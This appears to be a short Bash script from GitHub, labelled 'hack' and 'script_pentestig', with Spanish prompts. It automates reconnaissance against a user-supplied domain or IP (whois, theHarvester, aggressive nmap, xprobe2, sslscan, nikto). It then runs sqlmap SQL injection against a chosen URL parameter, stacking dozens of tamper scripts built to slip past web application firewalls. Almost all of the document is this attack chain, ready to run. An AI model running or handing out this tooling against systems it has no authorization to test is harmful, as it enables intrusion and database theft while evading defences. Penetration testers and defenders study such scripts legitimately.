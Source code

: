 # hack
script_pentestig
#!/bin/bash
$url
$varsqlmap
$sqlmapurl
echo 'Introduzca el dominio o ip:'
read url
echo "Startup"
whois $url
firefox "site:$url type:pdf"
theharvester -d $url -b all
nmap -T4 -A -v -Pn $url
xprobe2 $url
sslscan -no-failed $url
nikto -host $url
echo 'Se va a ejecutar SlqMap, introduzca la url a consultar tiene que tener una sintaxis como esta http://ejemplo.com/login.php?
user=miguel&password=12345:'
read sqlmapurl
echo 'Luego la variable a analizar por ejemplo si tenemos la URL http://ejemplo.com/login.php?
user=miguel&password=12345 y se va a analizar password, introducir password "Si no quiere ejecutar SqlMap oprima Crtl+C"'
read varsqlmap
sqlmap -u "$sqlmapurl" -p $varsqlmap --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords

